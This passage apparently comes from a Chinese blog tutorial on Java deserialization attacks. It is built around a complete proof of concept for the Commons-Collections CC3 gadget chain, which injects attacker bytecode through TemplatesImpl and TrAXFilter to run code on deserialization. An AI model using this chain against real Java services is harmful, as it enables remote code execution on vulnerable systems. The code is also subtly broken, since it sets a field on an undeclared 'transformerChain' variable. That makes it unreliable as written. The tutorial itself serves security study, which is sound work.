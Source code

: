 
替换到前⾯的demo中，也能成功触发，避免了使⽤`InvokerTransformer`

![image-20221111174621683](https://img2022.cnblogs.com/blog/3010963/202211/3010963-20221111174626141-1854385235.png)

接下来，就来构造一个完整的Payload：

    public class CC3 {
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj, value);
        }
    
        public static void main(String[] args) throws Exception {
            TemplatesImpl obj = new TemplatesImpl();
            setFieldValue(obj, "_bytecodes", new byte[][]{
                    ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
            });
            setFieldValue(obj, "_name", "HelloTemplatesImpl");
            setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    
            Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(TrAXFilter.class),
                    new InstantiateTransformer(
                            new Class[] { Templates.class },
                            new Object[] { obj })
            };
    
            Transformer chain = new ChainedTransformer(fakeTransformers);
    
            Map innerMap = new HashMap();
            innerMap.put("value", "xxxx");
            Map outerMap = TransformedMap.decorate(innerMap, null, chain);
    
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
            construct.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
    
            setFieldValue(transformerChain, "iTransformers", transformers);
            // ==================
            // 生成序列化字符串
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(barr);
            oos.writeObject(handler);
            oos.close();
    
            // 本地测试触发
            // System.out.println(barr);
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            Object o = (Object) ois.readObject();
        }
    }
    

这个POC也有CommonsCollections1⼀样的问题，就是只⽀持Java 8u71及以下版本，我们可以参考[Java安全之CC6](https://www.cnblogs.com/gk0d/p/16880711.html) 进行改造让其能通杀Java7和Java8。